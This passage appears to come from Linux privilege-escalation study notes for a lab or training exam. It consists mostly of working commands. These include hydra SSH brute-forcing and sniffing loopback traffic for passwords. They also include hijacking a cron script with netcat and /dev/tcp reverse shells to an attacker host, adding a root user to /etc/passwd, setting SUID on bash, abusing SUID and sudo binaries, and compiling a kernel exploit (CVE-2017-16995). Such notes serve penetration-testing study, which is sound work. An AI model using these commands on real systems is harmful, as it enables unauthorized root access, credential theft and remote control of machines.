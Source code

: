     `hydra -l <user> -P wordlist  <target> -t 4 ssh -V`
  - Monitor service footprint for credentials  
    `joe@debian-privesc:~$ watch -n 1 "ps -aux | grep pass"`  
    `joe@debian-privesc:~$ sudo tcpdump -i lo -A | grep "pass"`  
  - escalate privilege by stolen password `su - root`
- Cron Jobs
  - Inspect cron log file
    `joe@debian-privesc:~$ grep "CRON" /var/log/syslog`
  - Read the sh file content and file permission (rw)
  - Modify the script as one-liber reverse shell 
    ```
    start netcat listener nc -lnvp 1234
    
    echo >> user_backups.sh
    echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1234 >/tmp/f" >> user_backups.sh
    ```
    ```
    #nano archiver.sh
    bash -i >& /dev/tcp/<kali>/4444 0>&1

    #add SUID bit to execute with root privilege
    echo "chmod u+s /bin/bash" >> /var/archives/archive.sh
    ```
    `echo "chmod u+s /bin/bash" >> /var/archives/archive.sh`  
- Password Authentication
  - edit /etc/passwd (add new superuser "root2")  
    ```
    joe@debian-privesc:~$ openssl passwd w00t  #Fdzt.eqJQ4s0g
    joe@debian-privesc:~$ echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
    joe@debian-privesc:~$ su root2
    root@debian-privesc:/home/joe# id
    ```
- Setuid  
  - **Enumerate SUID**  
    `find / -perm -4000 -type f 2>/dev/null`  
    look for find, vim, less, bash, perl, python, nmap, tar, cp  
  - Check Binary against [GTFOBins](https://gtfobins.github.io/)  
  - Get a root shell by abusing SUID program  
    `joe@debian-privesc:~$ find /home/joe/Desktop -exec "/usr/bin/bash" -p \;`
  - **Enumerate capabilities**  
    - `joe@debian-privesc:~$ /usr/sbin/getcap -r / 2>/dev/null`  
    - look for "cap_setuid+ep" effective and permitted. Crack it by GTFOBins  
- **Sudo**
  - Enumerate Sudo Privileges  
    - `sudo -l` #Look for NOPASSWD  
    - Look for full root shell: (ALL : ALL) ALL  
    - check GTFOBins from the binary (vim, find, python3)  
- Kernel vulnerabilities  
  - Gather system info  
    `cat /etc/issue` `uname -r`  
  - Searchsploit  
    `searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"`  
  - Copy the exploit and inspect the code  
    `kali@kali:~$ cp /usr/share/exploitdb/exploits/linux/local/45010.c .`  
    `kali@kali:~$ head 45010.c -n 20`  
    `kali@kali:~$ mv 45010.c cve-2017-16995.c`  #rename exploit  
  - transfer the code to target  
    `kali@kali:~$ scp cve-2017-16995.c joe@192.168.123.216:`  
  - Compile the exploit on the target machine  
    `joe@ubuntu-privesc:~$ gcc cve-2017-16995.c -o cve-2017-16995`  
  - Obtain a root shell via kernel exploit    
    `joe@ubuntu-privesc:~$ ./cve-2017-16995`  
